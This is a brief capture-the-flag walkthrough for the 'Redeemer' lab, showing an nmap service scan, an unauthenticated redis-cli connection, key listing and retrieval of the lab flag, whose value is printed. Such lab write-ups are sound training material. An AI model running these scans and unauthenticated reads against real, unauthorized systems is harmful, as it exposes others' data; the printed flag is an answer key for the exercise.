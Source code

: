 # CTF Walkthrough: Redeemer

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Redis        
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -p- 10.129.225.56`
        - Output:
            ```
            PORT     STATE SERVICE VERSION
            6379/tcp open  redis   Redis key-value store 5.0.7
            ```

2. Connect to Redis database
    - Command: `redis-cli -h 10.129.225.56`

3. Show all Keys
    - Command: `KEYS *`

4. Get Flag
    - Command: `GET flag`
    - Flag : 03e1d2b376c37ab3f5319922053953eb

